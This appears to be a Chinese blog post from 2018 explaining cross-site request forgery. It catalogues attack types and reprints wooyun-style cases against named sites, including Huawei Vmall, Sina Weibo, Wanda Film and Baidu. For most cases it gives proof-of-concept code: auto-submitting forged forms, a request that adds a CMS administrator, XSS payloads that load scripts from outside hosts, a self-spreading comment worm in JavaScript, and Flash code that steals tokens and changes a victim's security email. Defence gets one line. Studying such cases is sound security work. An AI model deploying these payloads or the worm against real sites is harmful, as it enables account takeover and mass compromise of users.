







CSRF：Cross-Site Request Forgery，跨站请求伪造
0x00 什么是CSRF
在OWASP中是这样说的
一个跨站请求伪造攻击迫使登录用户的浏览器将伪造的HTTP请求,包括该用户的会话cookie
和其他认证信息,发送到一个存在漏洞的web应用程序。这就允许了攻击者迫使用户浏览器向存在漏洞的应用程序发送请求,而这些请求会被应用程序认为是用户的合法请求
0x01 CSRF攻击分类
- GET
请求是个GET请求，请求中没有token验证和referer验证，然后还有一个固定的变量可以被控制
- POST
请求是个POST请求，请求中没有token参数，也没有验证referer
- POST->GET
请求是个POST请求，请求中没有token参数，但是验证了referer。然而可以将post请求改写为get请求，然后通过第一种的情况进行利用
- CSRF+XSS
传说中的“黄金搭档”
- FLASH CSRF
Flash跨域权限管理文件过滤规则不严(domain=”*”)，导致可以从其它任何域传Flash产生CSRF
说真的，在学习这个之前还真不知道crossdomain.xml这个文件的作用
0x02 CSRF的主要危害
篡改目标网站上的用户数据
盗取用户隐私数据
作为其他攻击向量的辅助攻击手法
传播CSRF蠕虫
0x03 CSRF案例解析
- #### 华为商城某处CSRF可修改安全邮箱
漏洞点http://www.vmall.com/member/updateEmail.json?email=xxxx@xxx.com


然后就可以修改绑定邮箱，然后通过邮箱修改密码，登录帐号
- #### 新浪微博CSRF点链接关注

这里uid可以是任意用户
利用burp简单构造poc
<form action="http://movie.weibo.com/feed/relation/index/?fajtype=follow" method="POST">
<input type="hidden" name="uid" value="1944519257" />
<input type="submit" value="Submit request" />
</form>
- #### 新浪微博CSRF之点我链接发微博


http://wanwan.sina.com.cn.llunull.tk/a.php
此处构造poc
<form action="http://wanwan.sina.com.cn/t_sina/event/sxd.php" method="get">
<input type="text" name="e" value="5" />
<input type="text" name="img" value="http://wanwan.sina.com.cn.llunull.tk/sina_csrf.php">
<input type="text" name="text" value="hello,[email protected]://wanwan.sina.com.cn.llunull.tk/a.php" />
<input type="text" name="ra" value="">
<script> document.forms[0].submit(); </script>
</form>
- #### 某通用cms添加后台管理员的CSRF漏洞
添加后台管理员请求如下：

然后将post请求改成get也可以成功发包。
http://127.0.0.1/asp/Survey/admin/Admin.asp?Username=test222&Password1=123456&Password2=123456&action=yes
- #### 万达电影主站xss+csrf又是蠕虫
电影的评论处存在存储型xss
payload：<img src=x onerror=$['get\123cript']('//20.rs') width=0>

CSRF的蠕虫代码
var url="http://www.wandafilm.com/user/comment.do?m=addFilmComment";
var sendata = "filmId=20140507033232512405&commentContent=%3Cimg+src%3Dx+onerror%3D%24%5B'get\\123cript'%5D('%2F%2Fkm3.pw')+width%3D0%3E&cmType=0&code=";
if (window.XMLHttpRequest){
var xmlhttp1=new XMLHttpRequest();
}
else{
var xmlhttp1=new ActiveXObject("Microsoft.XMLHTTP");
}
xmlhttp1.open("POST",url,true);
xmlhttp1.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
xmlhttp1.send(sendata);
filmId是想要蔓延过去的电影ID的值，只需要改变电影ID就可以实现蠕虫的蔓延，当然这只是测试了
- #### 百度某站可结合CSRF及XSS劫持账号
在百度词典-我的词典处，有将生词添加进生词本的功能，在备注的时候没有进行过滤，可以直接插入JavaScript代码。
一个“SELF-XSS”,只能跨自己，有什么用呢？
考虑利用CSRF来触发这个XSS
构造POC：
#!html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</head>
<body>
<form id="baidu" name="baidu" action="http://dict.baidu.com/wordlist.php" method="POST">
<input type="text" name="req" value="add" />
<input type="text" name="word" value="Wooyun" />
<input type="text" name="explain" value="<script src=http://xsserme></script>" />
<input type="submit" value="submit" />
</form>
<script>
document.baidu.submit();
</script>
</body>
</html>
诱惑受害者访问该页面
已经成功添加了一个新单词“Wooyun”
代码成功执行
[来源wooyun]
- #### flash csrf自动设置自己的密保邮箱
当一个访客访问伪造链接的时候，自动设置自己的密保邮箱。
申请保密邮箱，浏览器向服务端发送了一个POST请求，请求地址和参数为：POST:xxx.xxx.xx/xx.jsp?userid=xxxx&mail=dddd@dddd.com
之前测试保密邮箱得知服务端没有验证Referer，但是页面验证了Token，所以就可以直接把POST数据包中的请求地址，参数名，参数值，Token值取出来用于伪造绑定保密邮箱的请求。
利用代码：
#!as3
package {
import flash.display.Sprite;
import flash.events.Event;
import flash.net.*;
import flash.text.TextField;
public class url extends Sprite
{
public function url()
{
//获取当前页面userid/token
var echo_txt:TextField = new TextField();
var targetURL:String = "http://xx.xx.cc";
var request:URLRequest = new URLRequest(targetURL);
request.method = URLRequestMethod.GET;
request.data = "";
sendToURL(request);
var loader:URLLoader=new URLLoader();
loader.addEventListener(Event.COMPLETE,completeHandler);
function completeHandler(event:Event):void{
var userid:String=((loader.data+"").match(/\/xxxx\/mxxxx\.php\?xxid=(\d+)/)||["",""])[1];
var masthash:String=((loader.data+"").match(/\/xxxx\/mxxxx\.php\?masthash=(\d+)/)||["",""])[1];
echo_txt.text = masthash;
//伪造申请密保邮箱POST请求
var emailtargetURL:String = "http://xxxxxx.xx.cc/xxxx/xxxx.jsp?mark=send";
var emailrequest:URLRequest = new URLRequest(emailtargetURL);
emailrequest.method = URLRequestMethod.POST;
var postdata:Object = new Array();
postdata[0]="xxxx=xxxx@xxx.cc&xxxx="+xxxxx&"xxxxx="+xxx;
emailrequest.data = postdata[0];
sendToURL(emailrequest);
}
loader.load(request);
}
}
}
现在可以注册一个新邮箱测试一下了
[来源wooyun]
0x04 CSRF的防御
token校验
0x05 CSRF总结
只要够猥琐，一个小洞也能上天
本文由 蓝骨
创作，采用 知识共享署名4.0 国际许可协议进行许可
本站文章除注明转载/出处外，均为本站原创或翻译，转载前请务必署名
最后编辑时间为: 2018-02-19T21:55:58+08:00